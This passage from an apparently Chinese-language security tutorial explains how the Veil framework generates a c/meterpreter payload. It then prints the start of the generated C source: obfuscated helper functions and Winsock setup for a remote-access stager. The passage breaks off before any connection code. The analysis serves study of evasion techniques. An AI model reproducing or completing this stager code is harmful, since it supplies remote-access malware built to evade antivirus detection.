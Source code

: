 选择c/meterpreter ，Veil自动配置好了LPORT，需要用户手动键入LHOST和Filename。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t014e08ee00cde363d1.png)

配置完成之后，生成payload的时候，Veil会自动创建源代码文件和可执行文件，分别放入compiled文件夹和source文件夹中。

打开source文件夹中的use5.exe.c可看到该payload生成的C语言源码：

[![](https://p2.ssl.qhimg.com/t0156680c8f6c6095f5.png)](https://p2.ssl.qhimg.com/t0156680c8f6c6095f5.png)

格式化之后完整代码如下

```
#define _WIN32_WINNT 0x0500
#include &lt;winsock2.h&gt;
#include &lt;time.h&gt;
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;windows.h&gt;
#include &lt;string.h&gt;
char* HTzuNvhCcP(char* s)
`{`
    char *result =  malloc(strlen(s)*2+1);
    int i;
    for (i=0;i&lt;strlen(s)*2+1;i++)
    `{`
        result[i] = s[i/2];
        result[i+1]=s[i/2];
    `}` 
    result[i] = '\0';
    return result;
`}`

char* OySGHDw(const char *t) 
`{`
    int length= strlen(t);
    int i;
    char* t2 = (char*)malloc((length+1) * sizeof(char));
    for(i=0;i&lt;length;i++)
    `{`
        t2[(length-1)-i]=t[i];
    `}` 
    t2[length] = '\0';
    return t2;
`}`

int xDEADohLQOWAzHd(char PRgNjrnBFiTU[]) 
`{`
    int ALonTwgUnqVHeP=0;
    int i;
    for (i=0;i&lt;strlen(PRgNjrnBFiTU);++i)
        ALonTwgUnqVHeP += PRgNjrnBFiTU[i];
    return (ALonTwgUnqVHeP % 256); 
`}`

void MzItUPnp() 
`{`
    WORD pYUkbOS = MAKEWORD((0*4+2), (2*1+0));
    WSADATA euQsZxqczZN;
    if (WSAStartup(pYUkbOS, &amp;euQsZxqczZN) &lt; 0) 
    `{`
        WSACleanup();
        exit(1);
```